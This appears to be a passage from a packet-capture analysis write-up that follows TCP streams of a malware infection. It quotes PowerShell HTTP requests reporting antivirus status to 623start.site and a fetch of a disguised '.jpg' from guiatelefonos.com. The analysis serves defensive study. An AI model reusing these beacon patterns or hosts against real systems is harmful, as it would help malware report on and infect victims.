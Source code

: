 <img width="1348" alt="image" src="https://github.com/user-attachments/assets/c14f1d74-99de-46eb-af95-dd582e221e89">

There are a couple http get requests, lets follow the TCP stream to get more detail.

```
GET /?status=start&av=Windows%20Defender HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.3031
Host: 623start.site
Connection: Keep-Alive

HTTP/1.1 200 OK
Date: Mon, 10 Jul 2023 22:39:48 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 14
Connection: keep-alive
Server: Apache/2.4.6 (CentOS) PHP/7.4.33
X-Powered-By: PHP/7.4.33

404 HTTP ErrorGET /?status=install HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.3031
Host: 623start.site

HTTP/1.1 200 OK
Date: Mon, 10 Jul 2023 22:39:49 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 14
Connection: keep-alive
Server: Apache/2.4.6 (CentOS) PHP/7.4.33
X-Powered-By: PHP/7.4.33

404 HTTP Error
```

Looking at the User-Agent we see PowerShell which likely means a malicious script is making these requests to the 623start.site domain. The two get requests GET /?status=start&av=Windows%20Defender HTTP/1.1 and GET /?status=install HTTP/1.1 seem to be sending status information back to the malicious domain about the anti virus running on the machine, maybe to clue the attacker on what type of executable to send. Thats the end of the traffic for 195.161.114.3, lets move onto the next one.

Filter with ```ip.addr == 92.118.151.9```

<img width="1583" alt="image" src="https://github.com/user-attachments/assets/60e9d65d-f2ae-425f-ac03-76c77142f052">

Have a little over 300 packets but there is a GET request at the top so lets follow that.

```
GET /data/czx.jpg HTTP/1.1
Host: guiatelefonos.com
Connection: Keep-Alive

HTTP/1.1 301 Moved Permanently
Server: nginx/1.20.2
Date: Mon, 10 Jul 2023 22:39:49 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Location: https://guiatelefonos.com:443/data/czx.jpg

a9
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.20.2</center>
</body>
</html>
```